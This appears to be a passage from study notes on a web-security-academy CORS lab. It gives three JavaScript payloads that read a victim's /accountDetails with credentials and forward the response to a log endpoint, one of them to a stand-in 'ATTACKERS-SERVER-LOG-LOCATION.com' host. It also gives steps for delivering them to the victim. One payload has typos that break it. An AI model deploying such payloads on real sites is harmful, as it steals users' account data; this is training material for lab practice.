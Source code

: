 Some payloads work, some don't:

```html
<html>
<script>
	var req - newXMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://VULNERABLE-APP.com/accountDetails',true)
	req.withCredentials = true;
	req.send();

	function reqListener() {
		loation = 'https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+this.responseText;
	};
</script>
</html>
```

```html
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://<REDACTED>.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```

```html
<html>
    <body data-rsssl=1>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://X.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

Host them in the exploit server, observe it works yourself and deliver it to the victim. View the access log afterwards.
# Server-Generated ACAO Header

Some apps provide access to other domains and allow access from any other domains. One way is via reading the Origin header from requests and including a response header stating the requesting origin is allowed. For example:
